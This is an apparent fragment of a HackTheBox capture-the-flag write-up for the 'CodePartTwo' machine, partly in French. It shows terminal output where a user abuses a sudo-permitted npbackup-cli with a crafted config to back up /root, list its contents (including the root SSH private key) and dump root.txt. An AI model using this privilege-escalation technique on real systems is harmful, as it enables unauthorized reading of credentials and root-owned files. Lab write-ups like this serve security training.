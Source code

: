 ```bash
2025-09-14 21:58:30,236 :: INFO :: Runner took 2.255908 seconds for backup  
2025-09-14 21:58:30,236 :: INFO :: Operation finished  
2025-09-14 21:58:30,243 :: INFO :: ExecTime = 0:00:02.307656, finished, state is: errors.  
marco@codeparttwo:~$ sudo /usr/local/bin/npbackup-cli -c /tmp/rootssh.conf --ls  
2025-09-14 21:58:46,009 :: INFO :: npbackup 3.0.1-linux-UnknownBuildType-x64-legacy-public-3.8-i 2025032101 - Copyright (C) 2022-2025 NetInvent r  
unning as root  
2025-09-14 21:58:46,037 :: INFO :: Loaded config 09F15BEC in /tmp/rootssh.conf  
2025-09-14 21:58:46,047 :: INFO :: Showing content of snapshot latest in repo default  
2025-09-14 21:58:48,185 :: INFO :: Successfully listed snapshot latest content:  
snapshot eb6e5b08 of [/root] at 2025-09-14 21:58:29.110455922 +0000 UTC by root@codeparttwo filtered by []:  
/root  
/root/.bash_history  
/root/.bashrc  
/root/.cache  
/root/.cache/motd.legal-displayed  
/root/.local  
/root/.local/share  
/root/.local/share/nano  
/root/.local/share/nano/search_history  
/root/.mysql_history  
/root/.profile  
/root/.python_history  
/root/.sqlite_history  
/root/.ssh  
/root/.ssh/authorized_keys  
/root/.ssh/id_rsa  
/root/.vim  
/root/.vim/.netrwhist  
/root/root.txt  
/root/scripts  
/root/scripts/backup.tar.gz  
/root/scripts/cleanup.sh  
/root/scripts/cleanup_conf.sh  
/root/scripts/cleanup_db.sh  
/root/scripts/cleanup_marco.sh  
/root/scripts/npbackup.conf  
/root/scripts/users.db  
  
2025-09-14 21:58:48,185 :: INFO :: Runner took 2.138347 seconds for ls  
2025-09-14 21:58:48,186 :: INFO :: Operation finished  
2025-09-14 21:58:48,192 :: INFO :: ExecTime = 0:00:02.185295, finished, state is: success.  
marco@codeparttwo:~$ sudo /usr/local/bin/npbackup-cli -c /tmp/rootssh.conf --dump /root/root.txt  
3f2befade952a0daa6aa35dfc2d03e84
```
On peux dump quelconque fichier du back up via le programme.
#offensive #HTB #privilege_escalation #sqlite #hashcat #CVE-2024-28397 #js2py
